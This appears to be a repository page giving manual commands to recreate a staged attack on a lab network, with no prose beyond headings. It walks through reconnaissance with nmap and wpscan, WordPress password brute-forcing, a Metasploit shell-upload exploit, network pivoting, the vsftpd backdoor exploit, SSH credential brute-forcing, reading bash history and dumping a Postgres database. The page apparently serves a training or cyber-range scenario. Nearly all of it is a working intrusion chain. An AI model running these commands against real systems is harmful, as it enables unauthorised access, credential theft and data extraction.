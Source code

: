 # Manual execution for the Scenario
Here is a bit more detailed description of the plan. It gives you the commands to recreate the Run yourself.

## Stage 1a - DMZ information gathering

## Scan DMZ
```shell
nmap -sV 192.168.91.0/24 -p80,3306 --exclude 192.168.91.11 -sV --open
```

## Scan WordPress website
```shell
wpscan 192.168.91.10
```

## Stage 1b - WordPress exploitation

## Get WordPress credentials using bruteforce
```shell
nmap --script http-wordpress-brute --script-args 'userdb=users.txt,passdb=passwds.txt,http-wordpress-brute.threads=3,brute.firstonly=true' 192.168.91.10
```

## Get session using exploit
(MSF console)
```shell
use unix/webapp/wp_admin_shell_upload
set rhosts 192.168.91.10
set username wordpress
set password wordpress
set LHOST 192.168.91.30
exploit -j
```

## Stage 2a - Server network information gathering

## Check for interfaces
```shell
cat /etc/hosts
```

## Create routing table
(MSF console)
```shell
use post/multi/manage/autoroute
set cmd add
set session 1
set SUBNET 192.168.92.0
run
```

check the routing table
```shell
route print
```

cleaning the routing table
```shell
route flush
```

## Scan FTP server
(MSF console)
```shell
use scanner/portscan/tcp
set PORTS 21
set RHOSTS 192.168.92.20
run
```

## Scan DB server
(MSF console)
```shell
use scanner/portscan/tcp
set PORTS 5432
set RHOSTS 192.168.92.21
run
```

## Stage 2b - FTP exploitation

## Exploit FTP server
(MSF console)
```shell
use unix/ftp/vsftpd_234_backdoor
set payload cmd/unix/interact
set RHOSTS 192.168.92.20
exploit
```

## Read logs from the FTP server
```shell
cat /var/log/vsftpd.log
```

## Stage 3a - User network information gathering

## Create routing table
(MSF console)
```shell
use post/multi/manage/autoroute
set cmd add
set session 1
set SUBNET 192.168.94.0
run
```

## Scan user machine
(MSF console)
```shell
use scanner/portscan/tcp
set PORTS 22
set RHOSTS 192.168.94.20
run
```

## Stage 3b - User exploitation

## Bruteforce user credentials
(MSF console)
```shell
use scanner/ssh/ssh_login
set RHOSTS 192.168.94.20
set USERNAME victim
set PASS_FILE /app/resources/pass_list.txt
set STOP_ON_SUCCESS true
set BLANK_PASSWORDS true
set THREADS 5
run
```

## Stage 4a - data extraction

## Check user's bash history
```shell
cat ~/.bash_history
```

## Dump database
````shell
PGPASSWORD=dbpassword pg_dump -h 192.168.94.21 -U dbuser beastdb
````
## Create Socks proxy (deprecated for now)
(MSF console)
```shell
use auxiliary/server/socks_proxy
set VERSION 4a
run
```

## Scan server network (deprecated for now)
```shell
nmap 192.168.62.20 -sT -Pn --proxies socks4://127.0.0.1:1080 -p21 -sV
```